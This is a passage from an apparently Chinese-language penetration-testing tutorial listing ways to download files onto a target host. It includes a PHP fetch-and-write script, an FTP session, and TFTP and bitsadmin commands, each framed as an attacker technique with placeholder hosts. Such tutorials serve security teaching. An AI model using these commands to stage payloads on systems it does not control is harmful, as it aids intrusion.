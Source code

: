 ```
root@kali:~# ruby test.rb 
```

### PHP File Download

PHP 作为一种服务端脚本，也可以实现下载文件这种功能。

```
<?php
        $data = @file("http://example.com/file");
        $lf = "local_file";
        $fh = fopen($lf, 'w');
        fwrite($fh, $data[0]);
        fclose($fh);
?>

```

执行脚本文件是这样

```
root@kali:~# php test.php 
```

下面的上传文件的方法，可能需要更多得步骤，但是有些情况下却可以绕过去多限制。

### FTP File Download

一般情况下攻击者使用 FTP 上传文件需要很多交互的步骤，下面这个 bash 脚本，考虑到了交互的情况，可以直接执行并不会产生交互动作。

```
ftp 127.0.0.1
username
password
get file
exit 
```

### TFTP File Download

在 Windows Vista 以及以后的版本中默认有 FTP，可以使用以下命令运行：

```
tftp -i host GET C:\%homepath%\file location_of_file_on_tftp_server 
```

### Bitsadmin File Download

Bitsadmin 是 Windows 命令行工具，用户可以使用它来创建下载或上传的任务。

```
bitsadmin /transfer n http://domain/file c:\%homepath%\file 
```

### Wget File Download

Wget 是 Linux 和 Windows 下的一个工具，允许非交互下载。
